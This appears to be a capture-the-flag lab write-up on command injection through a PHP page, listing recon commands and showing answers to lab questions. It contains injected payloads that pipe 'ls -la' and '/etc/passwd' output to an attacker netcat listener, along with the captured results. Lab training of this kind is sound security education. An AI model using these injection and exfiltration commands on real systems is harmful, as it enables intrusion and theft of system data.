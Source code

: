 **Commands to try**

**Linux**

* `whoami`
* `id`
* `ifconfig/ip addr`
* `uname -a`
* `ps -ef`

**Windows**

* `whoami`
* `ver`
* `ipconfig`
* `tasklist`
* `netstat -an`

To complete the questions below, navigate to http://MACHINE_IP/evilshell.php.

1. What strange text file is in the website root directory?

```
nc -lvnp 9001

listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.237.21] 40344
total 32
drwxr-x--- 4 www-data www-data 4096 Sep 29 12:16 .
drwxr-xr-x 3 root     root     4096 May 18 15:21 ..
drwxr-x--- 2 www-data www-data 4096 May 21 03:04 css
-rw-r----- 1 www-data www-data   17 May 22 13:14 drpepper.txt
-rw-r----- 1 www-data www-data 1723 May 26 01:52 evilshell.php
-rw-r----- 1 www-data www-data 2200 May 21 03:04 index.php
drwxr-x--- 2 www-data www-data 4096 May 21 03:04 js
-rw-r--r-- 1 www-data www-data   19 Sep 29 12:17 output.txt
```

```
root; ls -la | nc 10.8.106.222 9001
```

`drpepper.txt`

2. How many non-root/non-service/non-daemon users are there?

```
root; cat /etc/passwd | nc 10.8.106.222 9001
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
```
